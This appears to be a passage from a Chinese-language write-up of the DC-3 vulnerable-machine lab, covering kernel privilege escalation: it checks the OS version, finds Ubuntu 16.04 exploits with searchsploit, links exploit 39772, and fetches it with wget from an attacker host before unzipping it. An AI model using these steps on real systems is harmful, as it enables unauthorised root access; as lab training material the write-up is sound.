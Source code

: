 ## 权限提升

SUID提权并没有发现可用的

考虑内核提权

查看当前操作系统版本信息

```
cat /proc/version
```

查看版本当前操作系统发行版信息

```
cat /etc/issue
```

![image-20211112182557446](images/35.png)

searchsploit看看ubuntu16.04具有的提权洞

![image-20211112183033259](images/36.png)

Local Privilege Escalation的洞就是提权洞,看到了又好几个

网上的教程给出来的提权洞是

![image-20211112183329398](images/37.png)

用法如下

![image-20211112183451877](images/38.png)

给出了脚本的github链接

```
https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip
```

我直接在dc-3上用wget下载并没有成功

![image-20211112184111914](images/39.png)

下载下来直接用蚁剑传到dc-3上

![image-20211112184231373](images/40.png)

当然如果没有上传权限,可以尝试将文件放在vps的网站根目录上,然后使用wget下载,因为虚拟机是互通的我就可以直接放在kali的`/var/www/html`下

```
wget http://192.168.3.40/39772.zip
```

对上传到dc-3的文件解压

```
unzip 39772.zip
```
